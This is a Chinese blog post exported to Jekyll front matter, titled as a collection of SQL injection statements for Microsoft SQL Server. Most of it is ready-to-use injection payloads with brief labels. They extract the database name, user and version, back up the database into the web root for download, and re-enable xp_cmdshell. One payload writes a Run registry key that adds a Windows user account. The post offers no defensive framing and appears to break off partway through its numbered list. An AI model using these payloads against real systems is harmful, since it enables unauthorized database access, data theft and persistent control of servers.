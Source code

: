 ```yaml
---
layout: post
status: publish
published: true
title: SQL注入语句大全（金典收藏）
author: Byronlee
author_login: ginchenorlee
author_email: ginchenorlee@sina.com
excerpt: ! "1、返回的是连接的数据库名\r\n<pre class=\"brush: actionscript3; gutter: true\">and
  db_name()&gt;0</pre>\r\n2、作用是获取连接用户名\r\n<pre class=\"brush: actionscript3; gutter:
  true\">and user&gt;0</pre>\r\n3、将数据库备份到Web目录下面\r\n<pre class=\"brush: actionscript3;
  gutter: true\">;backup database 数据库名 to disk=&#039;c:\\inetpub\\wwwroot\\1.db&#039;;--</pre>\r\n4、显示SQL系统版本\r\n<pre
  class=\"brush: actionscript3; gutter: true\">and 1=(select @@VERSION) 或and 1=convert(int,@@version)--</pre>\r\n5、判断xp_cmdshell扩展存储过程是否存在\r\n<pre
  class=\"brush: actionscript3; gutter: true\">and 1=(SELECT count(*) FROM master.dbo.sysobjects
  WHERE xtype = &#039;X&#039; AND name =&#039;xp_cmdshell&#039;)</pre>\r\n6、恢复xp_cmdshell扩展存储的命令\r\n<pre
  class=\"brush: actionscript3; gutter: true\">;exec master.dbo.sp_addextendedproc
  &#039;xp_cmdshell&#039;,&#039;e:\\inetput\\web\\xplog70.dll&#039;;--</pre>\r\n"
wordpress_id: 42
wordpress_url: http://www.ginchenorlee.com/?p=42
date: !binary |-
  MjAxMi0wNi0wNCAxMjowOToxNCArMDAwMA==
date_gmt: !binary |-
  MjAxMi0wNi0wNCAxMjowOToxNCArMDAwMA==
categories:
- 信息安全
- SQL注入
tags: []
comments: []
---
```

<p>1、返回的是连接的数据库名</p>
<pre class="brush: actionscript3; gutter: true">and db_name()&gt;0</pre>
<p>2、作用是获取连接用户名</p>
<pre class="brush: actionscript3; gutter: true">and user&gt;0</pre>
<p>3、将数据库备份到Web目录下面</p>
<pre class="brush: actionscript3; gutter: true">;backup database 数据库名 to disk=&#039;c:\inetpub\wwwroot.db&#039;;--</pre>
<p>4、显示SQL系统版本</p>
<pre class="brush: actionscript3; gutter: true">and 1=(select @@VERSION) 或and 1=convert(int,@@version)--</pre>
<p>5、判断xp_cmdshell扩展存储过程是否存在</p>
<pre class="brush: actionscript3; gutter: true">and 1=(SELECT count(*) FROM master.dbo.sysobjects WHERE xtype = &#039;X&#039; AND name =&#039;xp_cmdshell&#039;)</pre>
<p>6、恢复xp_cmdshell扩展存储的命令</p>
<pre class="brush: actionscript3; gutter: true">;exec master.dbo.sp_addextendedproc &#039;xp_cmdshell&#039;,&#039;e:\inetput\web\xplog70.dll&#039;;--</pre>
<p><a id="more"></a><a id="more-42"></a></p>
<p>7、向启动组中写入命令行和执行程序</p>
<pre class="brush: actionscript3; gutter: true">;EXEC master.dbo.xp_regwrite &#039;HKEY_LOCAL_MACHINE&#039;,&#039;SOFTWARE\Microsoft\Windows\CurrentVersion\
Run&#039;,&#039;help1&#039;,&#039;REG_SZ&#039;,&#039;cmd.exe /c net user test ptlove /add&#039;</pre>
<p>8、查看当前的数据库名称</p>
<pre class="brush: actionscript3; gutter: true">and 0 &lt;&gt; db_name(n) n改成0,1,2,3……就可以跨库了 或and 1=convert(int,db_name())--</pre>
<p>9、不需xp_cmdshell支持在有注入漏洞的SQL服务器上运行CMD命令（同第76）<br />
10、则把得到的数据内容全部备份到WEB目录下</p>
<pre class="brush: actionscript3; gutter: true">;backup database 数据库名 to disk=&#039;c:\inetpub\wwwroot\save.db&#039;</pre>